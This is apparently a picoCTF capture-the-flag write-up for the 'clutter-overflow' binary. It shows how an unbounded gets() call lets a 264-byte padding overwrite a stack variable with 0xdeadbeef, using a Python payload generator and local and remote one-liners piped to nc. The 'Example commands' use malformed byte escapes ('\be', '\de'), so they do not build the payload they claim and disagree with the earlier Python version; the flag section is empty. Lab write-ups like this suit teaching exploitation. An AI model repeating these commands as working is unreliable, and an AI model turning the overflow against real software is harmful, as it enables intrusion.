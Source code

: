 - Buffer overflow primers and related links.

---

# 2. clutter-overflow

> This is a small 64-bit picoCTF binary that reads an uncontrolled string with `gets()` into a local buffer called `clutter`, and then checks a nearby stack variable `code` against the constant `0xdeadbeef`. The goal is to overflow `clutter` and overwrite `code` so the program prints the flag.

## Solution:

### Thought process
I suspected a classic stack overflow due to the use of `gets()` (no bounds checks). Instead of aiming for the return address, I inspected the binary to see if there were local variables near the buffer that could be overwritten. The source/disassembly showed `code` stored at `rbp-0x8` and `clutter` earlier on the stack, so overwriting `code` directly is possible.

### Steps followed

1. Make the binary executable and run it to observe behavior:
```bash
chmod +x chall
./chall
```

2. Use gdb (with gef/pwndbg) to inspect the stack and find offsets.
3. Generate a cyclic pattern to find the overflow offset.
4. Determine the offset to `code` (found to be 264 bytes in this writeup).
5. Craft the payload (264 'A's + little-endian `0xdeadbeef`).

Payload construction (example):

```bash
python3 - <<'PY' > payload.bin
import sys
sys.stdout.buffer.write(b"A"*264 + b"\xef\xbe\xad\xde" + b"\x00"*4)
PY
```

Test locally and then send to remote with `nc`.

### Example commands

```bash
# Local test
(python3 -c 'import sys; sys.stdout.write("A"*264)'; echo -ne '\xef\be\xad\de\x00\x00\x00\x00') | ./chall
# Remote
(python3 -c 'import sys; sys.stdout.write("A"*264)'; echo -ne '\xef\be\xad\de\x00\x00\x00\x00') | nc <host> <port>
```

## Flag (example):
